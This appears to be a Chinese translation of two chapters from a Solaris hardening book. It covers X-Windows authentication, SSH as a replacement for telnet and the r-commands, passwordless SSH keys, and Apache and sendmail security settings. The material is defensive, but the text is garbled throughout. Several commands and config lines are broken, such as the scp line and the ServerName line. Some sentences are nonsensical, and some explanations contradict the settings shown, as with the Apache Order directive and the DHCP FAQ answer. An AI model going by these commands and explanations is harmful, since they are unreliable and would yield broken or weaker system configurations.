为什么要在要在默认 X-Windows 安装中分发此类危险工具呢？就像他们包含 `su` 和 `vi` 等工具一样。当按预期用途使用时，这些工具对系统都是无害。使用 `xsclients` 命令的合法用途可能是从命令行发送当前活跃的 Netscape 会话。同样，你可以使用 `xwd` 工具创建

为了记录目的，这里提供了你自己的 X 会话的截图。然而，狡猾的入侵者在常用工具中发现弱点并不困难。

尽管 X-Windows 拥有悠久的历史，但由于其明文协议存在许多必须解决的设计缺陷，因此诸如此类破解 X 安全性的指令是是无处可见。作为一种通宜方法，你应该考虑像本章描述的那样通过 SSH 使用 X 应用程序。SSH 协议利用的强加密将防止任何窃听者从你的 X 会话中获取任何有用信息。

虽然基于用户的身份验证确实比基于主机的验证更安全，但它也有自己的弱点。默认的基于用户的认证方案使用 `MIT-MAGIC-COOKIE-1` 作为身份验证协议，这在本质上是不安全的，因为 magic cookie 本身在每次连接开始时都以明文传输，可以被轻易地嗅探。你可以将基于用户的身份验证切换到 `SUN-DES-1`，它支持加密认证。然而，`SUN-DES-1` 仅在 Solaris 系统上支持，因此在异构网络中这不是一个可以接受的解决方案。此外，即使认证经过了加密，X 协议仍然以明文传输，因此攻击者可以悠闲地嗅探所有的 X 击键，甚至是显示图像。需要一种更安全的跨平台解决方案。这是 SSH 真正大显异另一个领域。

### 使用 SSH 安全地使用 X-Windows

与 `ftp` 和 `telnet` 一样，SSH 是包括 X-Windows 在内的网络通信安全的解决方案。所有使用 SSH 协议的流量默认都是加密的——将 SSH 作为 X-Windows 的封装器也无不同。当使用 SSH 作为隧道 X-Windows 流量的手段时，不仅身份验证更加安全，协议流量也被混淆了。此外，SSH 在设计时考虑了隧道技术，因此在大多数情况下，连接配置由 SSH 在后台处理，因此安全的 X-Windows 通常从开始就能正常工作，甚至不再需要设置 `DISPLAY` 变量。所有的身份验证都使用标准的 SSH 认证通道（授权密钥、密码等）。

SSH 为什么能工作得如此出色且对用户透明呢？根据设计，当建立 SSH 连接时，SSH 服务器会通过伪装成远程主机上的 X 服务器来创建一个虚拟代理显示器。然后，所有的 X 协议信息都会通过 SSH 隧道重定向到你本地机器上的 X 服务器。接着，对 X 服务器的请求将在你的本地 SSH 客户端和远程 SSH 服务器之间进行代理。最终结果是，出于任何目的的考虑，本地和远程 X 服务器都认为所有的 X 客户端信息都是在本地生成并显示在本地 X 服务器上的。这实际上是一个非常精妙的方案。

因此，使用 SSH 的 X-Windows 服务只需要极少的配置即可正常运行。对于大多数情况，你需要做的就是在 SSH 客户端和服务器配置文件中启用 X 转发。这些在商业级 SSH 服务器中默认是启用的，但如果你使用的是 OpenSSH，则需要手动启用它们。对于 OpenSSH 服务器，你需要将 `sshd_config` 中的 `X11Forwarding` 改为 `yes`，并将 `ssh_config` 中的 `ForwardX11` 选项更改为 `yes`。就此简单。

## 使用远程命令

大多数情况下，你的 Solaris 服务器都需要某种类型的远程登录访问，如果不是为了用户，至少是为了管理目的。远程登录最可能使用内置系统程序，如 `telnet`、`login`、`rsh`、`rex` 或第三方软件如 SSH。允许远程登录访问的危险性同样大。本节描述了与远程登录最常见的危险，以及你如何降低相关风险。

### 使用内置远程访问方法

最常用的远程访问手段是通过被称为 `telnet` 和伯克利 r 命令（Berkeley r-commands）的系统命令，包括 `login`、`rexec` 和 `rsh`。所有这些方法都允许远程用户访问 Solaris 系统，且这种访问可以分为两类：交互式活动访问和非交互式活动访问。交互式访问（如 `login` 和 `telnet`）为用户提供一个虚拟终端以与系统交互，而非交互式访问则包括 `rsh` 和 `rexec`，它们在远程系统上运行单个命令并将输出重定向到本地系统。

这些访问手段的问题在于，无论是身份验证还是协议都不是安全的。`login` 和 `telnet` 都使用密码进行用户身份验证，这处于安全性的边缘水平，因为密码是以明文在网线中传输的。由于此，黑客可以轻易通过流量嗅探获取密码，并利用这些被盗的密码欺骗性地访问用户账户。


## 保护你的网络

你如何增加这些协议的安全性？在 Solaris 的最新版本中，Sun 包含了诸如 Kerberos 认证等功能，你可以结合 `telnet` 来加密密码流量。Kerberos 略微增加了 `telnet` 的安全性，使得潜在攻击者难以通过网络嗅探收集密码，因为没有密码是以明文发送的。你也可以使用第三方身份验证插件（如 S/Key）来保护远程认证。使用 S/Key 时，密码以明文发送，但每个密码仅有效一次，因此捕获密码对攻击者并没太大好处。S/Key 需要一个共享种子，该种子必须保持私密，并且需要定期生成新密钥。

尽管 Kerberos 和 S/Key 通过增强身份验证方法实现了安全性，但它们中的任何一个都没有为你的数据提供任何真正的安全，因为 `telnet` 使用的所有协议（伯克利 r 命令）都是未加密的。即使使用了安全的身份验证方法，攻击者也可以轻松复制在系统之间传输的专用数据。大多数明文协议（如 `telnet`）也容易受到会话重放（session playback）的攻击。会话重放是对会话的重传。

使用示例主机 `sparky.incoming-traveler.com` 的明文命令及其对应的 SSH 等效命令。

### 表 6.2 明文命令与其 SSH 等效命令的比较

| 明文协议命令 | 安全协议等效命令 |
|---|---|
| `ftp sparky.incoming-traveler.com` | `sftp sparky.incoming-traveler.com` 连接到服务器后，执行与使用普通 `ftp` 相同的命令。 |
| `telnet sparky.incoming-traveler.com` | `ssh sparky.incoming-traveler.com` 连接到服务器后，默认配置将要求你输入操作系统密码进行身份验证。 |
| `login sparky` | `login sparky` `login` 实际上只是指向 `ssh` 客户端的链接，因此此命令等同于 `ssh sparky`。除非远程主机配置了通过密钥签名对你进行验证，否则你将被要求输入密码。 |
| `rsh sparky command` | `ssh sparky command` 除非远程主机配置了通过密钥签名对你进行验证，否则你将被要求输入密码。验证完成后，命令通过 `stdout` 返回到你的本地系统。 |
| `rcp /path/to/sourcefile user@sparky:/path/to/destfile` | `scp /path/to/sourcefile user@sparky:/path/to/destfile` 连接到服务器后，默认配置将要求你输入操作系统密码进行身份验证。 |

如你所示，使用 SSH 客户端软件的学习曲线尽可能平滑。只有当你开始使用它的高级功能（例如基于代理的身份验证及其作为几乎任何明文协议封装器）时，才会遇到 SSH 真正的复杂性。例如，我们经常

# 安全你的网络 · 第6 章

通过 SSH 隧道使用 POP-3 协议下载邮件，这样在从邮件服务器到我们桌面的传输过程中，我们的身份和邮件内容都不会被嗅探。

由于空间限制，在书中我们不会涵盖任何高级 SSH 配置（如端口转发和代理身份验证），但这些配置在 OpenSSH 页面中都有详细文档，你可以轻松地在 `www.openssh.org` 在线阅读。

## 使用 SSH 实现免密登录

尽管你永远不会想为普通用户开启无密码远程登录（他们应该对密钥进行密码保护并使用 `ssh-agent` 进行验证），但在某些情况下，你可能希望系统账户能够在主机之间传输数据而无需交互。例如，可能你想要编写一个从一个系统复制日志文件到另一个系统的脚本，并希望调度该脚本通过 `cron` 运行。在这种情况下，你需要授权 SSH 会话通过密钥交换无需密码进行验证。本节将提供如何完成此任务的说明。

在源主机上，以用户身份使用 `ssh-keygen` 命令生成公钥和私钥。当要求输入密码时，只需按 `Enter` 允许任何空密码，如下：

```


# 第6章 · 安全你的网络

```
$ ssh-keygen
```

正在生成公/私 rsa 密钥对。

输入保存密钥的文件 (`/home/daemon/.ssh/identity`):

创建目录 `'/home/daemon/.ssh'`。

输入密码（空表示无密码）：

再次输入相同的密码：

您的标识已保存到 `/home/daemon/.ssh/identity`。

您的公钥已保存到 `/home/daemon/.ssh/identity.pub`。

密钥指纹为：
`a9ee:40:52:32:52:93:cb:ed:60:53:c3:d9:37:b5`

`daemon@sharky.incoming-traveller.com`

```
$ ls -al .ssh
```

```
total 9
drwx------ 2 daemon daemon 104 Aug 30 07:32 ./
drwx------ 5 daemon daemon 264 Aug 30 07:32 ../
-rw------- 1 daemon daemon 547 Aug 30 07:32 identity
```


```
-rw-r-- 1 daemon daemon 351 Aug 30 07:32
identity.pub
$
```

如你所示，SSH 已创建了一个 `.ssh` 目录，其中创建了私钥（`identity`）和公钥（`identity.pub`）。`.ssh` 目录的权限模式为 `700`，公钥模式为 `644`，私钥模式为 `600`。它们不能是列出模式之外的任何模式，否则你的传输将无法工作。你正在创建的是 SSH 等同于 `.rhosts` 条目的内容，SSH 通过对密钥文件执行严格权限来防止前面描述的 `.rhosts` 攻击。

接下来，你需要将公钥复制到接收端主机上的授权密钥列表中。你可以使用任何方便的方法，但以下步骤是行之有效的：

```
$ sc identity.pub daemon@receiving.incoming-traveller:-.ssh/sparky-identity.pub
```

在远程主机上，进入 `.ssh` 目录并执行以下命令：

```
$ cat sparky-identity.pub >> authorized_keys
```


通过这种方式，你可以一目了然地记录哪些主机允许免密访问系统，尽管查看 `authorized_keys` 文件可以获得更正式的列表。

此外，我们还看到了如何轻松地通过 SSH 对 X 协议进行隧道传输，这种方式不仅保护了身份验证，还保护了数据传输。

## 总结

本章的目标是带你了解 Solaris 网络服务的安全，我们查看了可能使用的许多主要服务，如 DHCP、DNS、远程命令、X-Windows 和 SSH。这些每种服务都具有其独特的重要性。

通过 DHCP，你可以使用命令行或图形化工具来设置和维护主机信息数据库。我们看到命令行工具 `dhcpconfig` 最适合 DHCP 的初始设置，而 GUI 工具最适合持续管理。

我们还查看了 Solaris 的服务守护进程 `BIND`，并注意到默认安装自带的版本容易受到根栈溢出攻击的影响。我们提供了使用较新版本的 `BIND` 创建 `chroot` 监狱环境的说明，这能将 DNS 服务与操作系统的其他部分隔离开。

我们检查了 Berkeley r-命令 `login`、`rexec` 固有的不安全性以及使用这些命令的危险。配置不当的 `.hosts` 文件或 `/etc/hosts` 会用登录的便利性换取入侵的漏洞。我们的解决方案是安装 SSH 作为 Berkeley r-命令的直接替代方案。SSH 以极少的服务器配置和近乎透明的客户端使用提供了安全的身份验证和数据传输。

最后，我们讨论了 X-Windows 的身份验证模式（基于主机和基于用户），并发现无论使用何种身份验证方法，X 协议都是未加密且本质上是不安全的。因此，知识攻击者不仅可以通过 X 协议获取密码，还可以记录击键并监视用户的显示。作为解决方案，我们看到了如何轻松地通过 SSH 对 X 协议进行隧道传输，这种方式不仅保护了身份验证，还保护了数据传输。


## 解决方案快速通道

### 将 Solaris 配置为 DHCP 服务器

- 在开始之前，确定您的租约池、默认网关、租约时间以及任何其他客户端数据。
- 使用命令行工具 `dhcpconfig` 设置工具创建您的 DHCP 服务器配置。务必启用日志。
- 使用 GUI 工具 `dhcpmgr` 维护您的 DHCP 配置并设置主机特定选项。

### 在 Solaris 上加固 DNS 服务

- 必须明确，攻击者可以利用不安全的 DNS 服务器作为路线图，以识别并针对有兴趣的主机进行攻击。
- 考虑将您的 DNS 划分为单独更新的公共和私有服务器。
- 配置 `BIND` 运行在 `chroot` 监狱中。
- 在 `named.conf` 文件中尽可能严格地限制区域传输信息。

### 配置 Solaris 提供匿名 FTP 服务

- 将所有用户添加到 `/etc/ftusers` 文件中，并根据用户对 FTP 服务的需求分情况地删除他们。
- 了解为什么匿名 FTP 在本质上是不安全的。然后，如果仍然确定这是一项需求，请使用 `inftp(1)` 主页中的配置脚本，在 `chroot` 的 Berkeley r-commands 环境中配置匿名 FTP 服务器。

### 安全地使用 X-Server 服务

- 理解基于主机的认证和基于用户的认证之间的安全级别差异。
- 除非资源位于您的 Solaris 服务器上，否则 OpenWindows 的 XDM 会负责为您生成魔法 Cookie `magic cookies`。
- 在可能的情况下，使用 SSH 转发 X 连接，以增加安全性和身份验证。

### 使用远程命令

- 尽可能限制 Berkeley r-commands 的使用。
- 了解 `/etc/hosts.equiv` 和 `.hosts` 将允许对您的服务器进行无密码登录，这通常是非常不受欢迎的。
- 完全禁用 Berkeley r-commands 并使用 SSH 作为无缝替换。SSH 的学习曲线非常低，因为在几乎所有情况下它使用的语法与 Berkeley r-commands 相同。

## 常见问题解答

以下由本书作者回答的常见问题，旨在衡量您对本章所介绍概念的理解程度，并帮助您在现实生活中实现这些概念。如需让作者回答您关于本章的问题，请点击“询问作者”表单。`www.synergy.com/solutions`

**Q：** 我想控制哪些客户端机器使用我的 DHCP 服务器的资源。Solaris 支持此吗？

**A：** 默认情况下，您可以做到这一点。出于安全考虑，您可能决定指定 DHCP 客户端仅在 MAC 地址已知时才获取 IP 地址。在高安全区域，将对 DHCP 功能的访问限制为预先知的客户端可能是理想的——这可以防止未经授权的机器加入您的网络。然而，即使您以这种方式配置了 DHCP 服务器，也没有什么阻止攻击者为您的网络输入有效的静态 IP 地址。如果 Solaris DHCP 服务器不支持此功能，您将从 ISC `BIND` 的制作者安装 DHCP 服务包，该包具有许多 Solaris DHCP 服务器不支持的其他选项。请注意，ISC 的 DHCP 服务器没有任何类型的 GUI 配置工具，如果这些对您来说重要的话。


`www.synergy.com`

# 第 6 章 加固您的网络

**Q：** 最近新闻中有很多关于互联网蠕虫的报告。Linux 最近也很频繁。Solaris 容易受到这类蠕虫攻击的影响吗？

**A：** 虽然尚未报告任何事件，但在理论上，对 Solaris 进行基于蠕虫的攻击是完全可能的。蠕虫攻击通常利用远程 root 漏洞或利用远程用户漏洞结合本地 root 漏洞。只需要有人编写一个利用 Solaris 独有漏洞的蠕虫即可创建出蠕虫。尚未实现的原因最可能是市场份额的原因。互联网蠕虫和病毒的编写者通常倾向于影响更大数量的系统。因为互联网上存在大量的 Windows 和 Linux 主机，这可能就是这两个操作系统到目前一直成为目标的原因。适当的补丁维护是跟上任何类型互联网蠕虫的最佳方法。在大多数情况下，供应商已经发布了涵盖蠕虫所利用的漏洞的补丁。如果您保持系统使用来自 Sun 的最新安全补丁进行更新，您极可能不需要担心蠕虫攻击。

**Q：** 我听说过 FTP 弹射攻击 `FTP bounce attacks`，允许黑客利用匿名 FTP 站点攻击其他站点。你能告诉我更多关于这些信息吗？

**A：** 虽然它们现在不像过去那么常见，但 FTP 弹射攻击仍然存在。如果您的匿名 FTP 服务器具有全局可写的目录，您可能会成为攻击其他站点的帮凶，利用 FTP 协议中的一致性来攻击第三方，类似于源路由攻击。在 FTP 会话中使用 `PORT` 命令，您可以重定向 FTP 服务器连接的位置，以向此端口传递原始的 TCP 指令。由于大多数 FTP 服务器不验证 FTP 数据流和 FTP 命令流连接到同一个主机，FTP 服务器可能会被欺骗连接到第三方主机并发送各种数据。对于 FTP 弹射攻击没有简单的解决方案，但可能您能做的最好的事情就是避免运行匿名 FTP 服务器，并避免对通过 FTP 提供的任何目录允许读/写访问。

**Q：** SSH 听起来是加固网络的好方法，但我的用户需要 Windows 客户端通过 SSH 连接到 Solaris 服务器。有可用的客户端吗？


**A：** 绝对有。一些最好的客户端是免费提供的。这些 `puTTY` 一个使用 SSH 的类 telnet 客户端和 `WinSCP` 一个 Windows 的图形化 SCP 实用程序，可以在 `greeng.org/~sgatham/putty/` 和 `http://winscp.net/` 获取。两个流行的商业客户端包括来自 VanDyke Technologies 的 `SecureCRT` `www.vandyke.com/products/securecrt/` 以及来自 F-Secure 的客户端 `www.fsecure.com/products/ssh/`。

# 提供 Web 和邮件服务

第 7 章 提供 Web 和邮件服务

## 引言

随着互联网从科学家和研究人员的实验场所变成现在的无处不在，它的两个功能已深入所有用户的心智：电子邮件和万维网。不幸的是，这些服务的普及也是它们致命的缺陷。随着 Web 和邮件服务器的传播和扩散，随之而来的漏洞和风险也在增加。我们查看的可能是两个最流行的软件包：`sendmail` 和 `Apache`。一个重要的注意事项——自 Solaris 8 以来，Sun 多年来一直提供。在任何情况下，您都会发现非 Sun 发行的版本。

`Apache` 服务器的名字源于它最初是对伊利诺伊大学厄巴纳-芬槟场开发的 HTTP 守护程序的补丁。`Apache` 服务器于 1995 年 4 月首次发布 0.6 版本，随着 Apache 1.0 在 1995 年 12 月 1 日问问世界，当我们快进近六年后，我们发现在 2001 年 Mindcraft 的调查中，60% 的站点在 Linux、Unix 或 Windows 上使用 Apache 提供内容。然而，与 `sendmail` 相比，Apache 是个新手。

`Sendmail` 最初由加州伯克利大学 Eric Allman 开发，允许跨多种传输和网络类型分发邮件。在那个时代，并不是所有的邮件服务器都支持 SMTP，因此 Sendmail 设计支持尽可能多的邮件协议，以允许加州伯克利所有的邮件网络相互以及与互联网通信。`Sendmail` 因其包含在加州伯克利的 UNIX 版本 `BSD` 中而最初受欢迎。随着 `sendmail` 接近 20 岁，它处理的互联网电子邮件比任何邮件服务器都多。由于作者对各种电子邮件相关 RFC 的遵守，`sendmail` 将继续是任何系统管理员工具箱中灵活、多功能且强大的工具。

提供 Web 和邮件服务

本章的解决方案：

- 配置 Apache 服务器的安全
- 监控 页面使用和活动
- 配置 Sendmail 的安全
- 总结
- 解决方案快速通道
- 常见问题解答

# 提供安全的 Web 和邮件服务 • 第7章

生活的本质是路由和递送电子邮件。默认情况下，这两者本身并不能内在防御攻击。随着互联网及其固有危险性的增长，作者和维护小组面临着挑战，即要在产品中提供一流的安全特性和功能。今天多花一点时间妥善地配置您的服务，可能可以避免以后花费大量时间来清理安全泄露留下的烂局面。

## 配置 Apache Web 服务器的安全特性

默认情况下，Apache 不会被配置在 Solaris 系统启动时运行。Sun 在 `/etc/apache` 放置了一组基础配置文件，但 `httpdconf` 文件被命名为 `httpd.conf-dist`。启动脚本 `/etc/rc.d/S50apache` 会寻找 `httpdconf` 文件来配置 Apache，但如果找不到该文件，Apache 将无法启动。要现在启动 Apache 并在重启后依然有效，请将文件 `/etc/apache/httpdconf-dist` 复制到 `/etc/apache`。仅本次，使用 `start` 作为命令行参数运行 `/etc/rc.d/S50apache`。服务器将正常启动。

Apache 的大脑在于 `httpdconf` 文件。如果没有一个有效的 `httpd.conf` 文件，二进制文件将只会呆在那里，毫无用处。我们花费了大量时间从最基础且最安全的角度来了解这个文件，所以请熟悉它。`httpd.conf` 文件充满了各种指令，每条指令都会告诉 Apache 二进制文件关于您系统的信息。某些指令是可选的，关于每个指令功能的完整说明需要一整本书的内容。我们在这里关注重要的部分：

- **ServerSocket** 默认为独立模式 `standalone`，但如果 Apache 应该由 `inetd` 控制，也可以配置为 `inetd`。使用 `standalone` 将为您提供最佳性能，但结合 TCP Wrappers 使用 `inetd` 将让您更好地控制安全性。

- **ServerRoot** 对于 Solaris，这默认为 `/var/apache`。请将其修改为您配置配置文件、日志文件的地方，并确保将其放在一个有足够空间存放日志文件和其他杂数据的磁盘分区上。将其放在与系统其余部分独立的分区上有助于防止 DoS 攻击拖垮整个系统。


# 第7章 提供安全的 Web 和邮件服务

- **User** 默认设置为 `nobody`。Apache 应该以您系统上的某个身份运行。由于 Solaris 将 `nobody` 用户用于其他用途，最好是创建一个名为 `apache` 或 `httpd` 的新系统用户。确保该用户至少对您的 `DocumentRoot` 访问权限，并直接或通过组组成拥有对 `ServerRoot` 的读写权限。

- **Group** 此设置也默认为 `nobody`。将此选项设置为 Apache 在您的系统上运行所需的组 ID `GID`。配合 `User` 设置，您应该将其更改另一个组，如 `apache` 或 `httpd`。

- **ServerAdmin** 这配置了任何服务器生成的消息或提示信息中的电子邮件地址，用于通知系统管理员。对于 Solaris，它默认为 `you@your.address`。如果您的站点有多个 Web 管理员，这可以是一个邮件列表，例如 `Webmaster@your-domain.com`。

- **ServerName** 将其设置为您的 Web 站点名称。对于我们的示例网站，我们将放置 `www.incoming-traveler.com`。这不需要与您的完全限定域名 `FQDN` 相同。例如，我们服务器的 FQDN 可能是 `www-commerce.incoming-traveler.com`，但我们可以将 `ServerName` 设置为 `www.incoming-traveler.com`，这样 Apache 就不会在任何输出中列出真实的 FQDN。

- **DocumentRoot** 此选项配置系统的主 Web 目录。在 Solaris 上，该目录默认为 `/var/apache/htdocs`。配合 `ServerRoot`，最好将其设置为与系统其余部分独立的磁盘分区。如果让 `ServerRoot` 和 `DocumentRoot` 位于不同的磁盘分区上更好，因为

- **`<Directory "/var/apache/htdocs">`** Apache 使用的配置文件语法非常类似于 HTML。在这种情况下，我们正在为主 Web 目录配置安全选项。如果您更改了上一项提到的 `DocumentRoot`，请更改引号中的目录名称。

以下是 `httpd.conf` 文件的示例，为了简洁进行了简化，适用于我们的站点 `www.incoming-traveler.com`：


`ServerType` `standalone`

`ServerRoot` `"/usr/local/apache"`

`User` `apache`

```

```

`Group` `apache`

`ServerAdmin` `scarter@incoming-traveler.com`

`< www.incoming-traveler.com`

`DocumentRoot` `"/usr/local/docroot"`

`<Directory "/usr/local/docroot">`

  `Options` `None`

  `AllowOverride` `AuthConfig`

  `Order` `allow, deny`

  `Allow` `from all`

`</Directory>`

```
代码示例中的 `<Directory>` 部分告诉 Apache 它应该默认允许访问，并显式拒绝访问。在我们的示例中，我们允许任何请求 `docroot` 目录文件的人进行访问。`Order` 关键字决定先允许还是先拒绝，`Allow` 关键字为目录创建访问列表。`Options` 关键字启用或禁用目录的各种选项，例如服务器包含（SSI）、目录索引和 CGI 脚本执行。`AllowOverride` 关键字用于允许访问文件（默认名为 `.htaccess`），并通过 `httpd.conf` 中的 `AccessFileName` 关键字控制以覆盖目录的某些选项。.htaccess
```

# 限制 CGI 威胁

安全漏洞产生最大的原因之一是使用了通用网关接口（CGI）脚本，它允许用户与系统交互。大多数 CGI 程序是用三种 语言之一编写的：C、Perl 或某些 shell（如 Bourne）。在这三种中，没有一种一定比其他更安全。使用 CGI 的第一条规则是从安全角度开始编写。从第一行代码开始，就要清楚脚本应该处理什么、应该看到哪些合法的请求、应该拒绝哪些请求，以及您如何处理错误请求和日志。编写完成后，测试、测试、再测试，直到你、你的同事以及周围的人都对你已经尽了足够的工作来确保脚本安全感到满意。

# Web与邮件服务的安全防护 • 第7章 205

```
Options None

Order allow,deny

Allow from *.incoming-traveller.com

Deny from all

</Directory>
```

`Directory` 指令应用于 CGI 目录时，告诉服务器仅允许 incoming-traveller.com 域的用户访问 `/usr/local/apache/cgi-bin` 的内容（脚本），该目录被别名为主服务器的 CGI 目录。除此之外，该指令显式拒绝其他所有人，并防止其他人员执行或篡改我们的脚本。


## 设置权限

Web 服务器的一个主要问题是它们的可访问性。在某些例外情况下，Web 服务器被用作许多机构的虚拟存在，用于向公众共享信息。在后台，这些 Web 服务器需要让其部分文件对整个世界可见。需要记住的一点是，为你的 HTML 和其他 Web 文档正确设置权限。运行 Web 软件的用户至少对这些文件具有读取权限。在许多情况下，该用户对这些文件没有写入权限。通过将你的 html 文件设置为 `444`，你增加了一层防御网页篡改攻击的额外保护措施。如果服务器软件被破坏，它可以被用于向有效用户 ID 有权访问的文件写入数据。通过限制写入权限，你限制了落入网页篡改攻击的概率。

你可能还会考虑使用免费提供的 Tripwire 产品来维护你的 Web 服务器文档树上的校验和列表和权限设置列表。通过定期更新和运行 Tripwire，你可以快速发现任何变化并做出相应的响应。Tripwire 应用将在第 11 章中介绍。


## 使用虚拟主机 (Virtual Hosts)

虚拟主机对于控制 Apache 输出的身份信息非常有用。你可能希望世界上知道你的公共域名，但不希望他们知道你的公司域名。你还可以配置 Apache 仅绑定到系统上的 IP 地址。网络扫描将仅显示在所绑定的 IP 地址上监听的 Web，而其他地址则不会。这可以混淆黑客并隐藏你网站的拓扑结构。通过 `Listen` 和 `Port` 关键字，你还可以配置 Apache 监听额外的 IP 地址和 TCP 端口。示例所示：

```
Listen 192.168.3.42:8081

BindAddress 192.168.3.40

Port 80

<VirtualHost 192.168.3.42>

  ServerAdmin webmaster@anothersite.com

  DocumentRoot /usr/local/anothersite

  ServerName www.anothersite.com

  ErrorLog logs/anothersite-error_log

  CustomLog logs/anothersite-access_log common

</VirtualHost>
```

在此示例中，`<VirtualHost>` 部分为我们使用 `Listen` 关键字定义的 IP 地址定义了一个名为 `anothersite.com` 的虚拟主机。该地址必须使用 `ifconfig` 命令在系统上配置为逻辑接口。我们还为这个虚拟服务器创建了专门的日志文件，并让系统除了标准的 80 端口外，还监听 8081 端口。独立的日志文件对于解析网站上的用户活动非常有用，例如绘制请求文件的用途、类型和位置的图表，以及检查仅与该虚拟站点相关的错误。更改端口是有帮助的，这样标准的 80 端口就不会与尝试在该端口上运行的其他程序相混淆。在将 Web 服务器作为各种后端数据库的代理的情况下，一个定义好的高端口对于排查通信问题非常有帮助。

## 监控 Web 页面使用情况

在了解 Web 服务器整体健康状况方面，两个文件起着关键作用：访问日志（access log）和错误日志（errors log）。访问日志将显示你的服务器接收了哪些请求、来自何处（远程 IP 地址）、请求的 URL 以及请求的结果（数字格式，即请求是被找到并提供、被拒绝，还是由于服务器或客户端错误失败）。如果发生错误，错误日志将显示类似的信息，但有时会提供更详细的说明，例如未找到文件、无法执行的脚本或在请求时服务器不可用的其他资源。

# 第 7 章 · 提供安全的 Web 和邮件服务

```
OSTYPE (solaris2) dnl

DOMAIN (incoming-traveller.com) dnl

FEATURE (access_db, dbm -o /etc/mail/access) dnl

define ('ALIAS_FILE', /etc/mail/aliases) dnl

define ('conPRIVACY_FLAGS', 'noexpn,novrfy') dnl

FEATURE ('blacklist_recipients) dnl

FEATURE ('dnsbl')

MAILER (local) dnl

MAILER (smtp) dnl
```


前几行告诉 `m4` 处理器我们正在使用什么操作系统。`Solaris 8` 实际上是 `Solaris 2.8`，是 `SunOS 5.x` 发布家族的一部分。从 `Solaris 2.7` 开始，`Sun` 决定简化其命名并将其标记为 `Solaris 7`，但我们处理的仍然是一个 `Solaris 2.x` 变体。接下来，我们定义了域名，这非常直观。我们添加的下一个功能是访问数据库，它将帮助我们控制谁可以和不可以向我们的服务器提交邮件（稍后会回到这一点）。该语句中的 `-o` 选项表示发送邮件时该文件的存在是可选，如果在启动时未找到它，`sendmail` 将不会回退并拒绝运行。`dbm` 关键字告诉 `sendmail` 我们将使用的数据库类型。选项有 `dbm` 和 `hash`。`dbm` 类型在 `Solaris` 上被原生支持且更容易处理，所以我们目前将使用它。第二个 `define` 设置了两个标志。这两个设置防止了 `SMTP` 的 `vrfy` 和 `expn` 命令工作。这两个命令通常被垃圾邮件发送者用于验证您邮件服务器上的本地有效地址。一旦验证完成，`m4` 监狱将开始运行。

`blacklist_recipients` 功能与 `access_db` 功能配合工作。当使用 `blacklist_recipients` 时，我们可以在 `access_db` 文件中放入不应该在本地接收邮件的用户地址。该功能最流行的用途之一是黑名单内部使用的且绝不应从外部世界接收邮件的账户。`root` 本身就是一个例子。大多数网站都有特定的 `abuse` 账户，技术上讲，每个站点都应该维护一个 `postmaster` 账户。这些账户可以通过 `aliases` 文件转发到 `root`，但 `root` 本身绝不应该从外部世界接收邮件。

下一行提供了更深入的观察，这既是因为它的实用性，也是因为围绕着它的争议。`dnsbl` 行告诉 `m4` 我们将添加对实时黑名单（`RBL`）的支持。有多个 `RBL` 服务器，最常见的是 `blackholes.mail-abuse.org`（见 http://mail-abuse.org/r/）。`RBL` 列表包含了已知垃圾邮件发送者的域名和 `IP` 地址。


当 `sendmail` 开始接收消息时，它会对发送域名或服务器的 `IP` 地址进行 `RBL` 检查。如果 `RBL` 中存在匹配，邮件将被拒绝。否则，消息将传递给 `sendmail` 路由器的其他部分进行反垃圾邮件处理。配置不当的系统可能会进入 `RBL` 列表，因此有时合法组织将无法发送邮件。例如，假设我们的合作伙伴 `Nox` 有一个名为 `no.net` 的域名。对于 `nox.net` 的邮件主机，一个狂热的管理员误配置了旧版本的 `sendmail`，现在该系统变成了一个开放代理。某一时刻，我们在 `incoming-traveller.com` 的服务器将接受来自 `mailer.nox.net` 的邮件。几小时或几天后，当 `mail.nox.net` 被列入 `RBL` 时，`mailhost.incoming-traveller.com` 将停止接收来自合作伙伴的邮件。如果 `Nox` 负责，他们会在收到（或其他人）通知后很快修复问题，并可以轻松退出 `RBL`。然而，邮件连接的丢失对于这种类型的保护来说可能代价太大。你将根据你的整体业务需求和目标做出此决定。

最后几行告诉 `sendmail` 通过生成的 `sendmail.cf` 文件使用本地和 `smtp` 邮件传输器来处理目的地的邮件流量。此 `sendmail.cf` 文件的核心是 `access_db` 功能。一旦使用 `m4`（在 `Solaris 8` 安装中）生成 `sendmail.cf` 文件，你的文件将显示如下：

```
# Access list database (for spam stopping)

access db -o /etc/mail/access
```

现在，你需要构建访问数据库本身。首先，我们将通过生成一个包含我们想要阻止的地址和域名的文本文件来开始，然后我们将黑名单几个本地用户名，以防万一。

```
# block these domains outright

spammer@foo.com         REJECT

badspammer.com         REJECT

63.206.177             REJECT
```

```
# forbid incoming-mail to these addresses
```

```
root@incoming-traveller.com     ERROR:550 Mailbox closed.
```


# 第 7 章 · 提供安全的 Web 和邮件服务

第一节，我们识别了 `sendmail` 的基础配置。在本节中，我们将查看如何保护邮件服务。

## 保护 Web 和邮件服务

在邮件早期，`sendmail` 软件被设计为作为开放代理工作。这与互联网最初免费且开放的性质相辅相成。曾几何，如果 `mail.incoming-traveller.com` 服务异常，我们的公司可以使用 `mail.nox.net` 将邮件中继到目的地。这非常方便且运行良好，直到未公开批量邮件（`UBE`）或垃圾邮件时代的出现。垃圾邮件发送者开始利用 `sendmail` 的这一功能来隐藏他们的真实来源。在 `sendmail v8.5` 左右，发布了一些官方“黑科技”，允许管理员防止其服务器之间的开放代理。随着 `sendmail v8.9` 的出现，所有版本的 `sendmail` 默认都禁止任何类型的中继。这一向正确的步骤确实开始提供帮助，`UBE` 的发送者显然在尝试中变得越发专注。

当你在 `sendmail.cf` 中放置任何 `FEATURE` 行时，将出现以下语法——在任何情况下都不会无法工作。第一种是直接的前向的：

```
FEATURE (relay_entire_domain)
```

假设我们在 `mailhost.incoming_traveller.com` 的 `.cf` 文件中放置接受来自域名 `incoming-traveller.com` 主机的邮件。这解决了用户如果直接从桌面发送邮件而不是通过集中的出站邮件服务器时会遇到的问题：

```
FEATURE (relay_hosts_only)
```

此功能提供了更细粒度的控制，以决定你的邮件服务器允许哪些系统中继。如果你在 `.cf` 文件中使用此选项，你需要在 `/etc/mail` 中维护一个名为 `relay-domains` 的文件。`relay-domains` 文件必须显式列出每个允许中继的主机，例如

## 第 7 章 提供安全的 Web 和邮件服务

`FEATURE(relay_based_on_MX)`

此功能高度依赖于 `DNS` 命名空间中正确配置的邮件交换（`MX`）记录。虽然 `DNS` 不是本章的重点，但让我们先了解一些背景：


incoming-traveller.com MX preference = 10, mail exchanger = 

mailhost.incoming-traveller.com

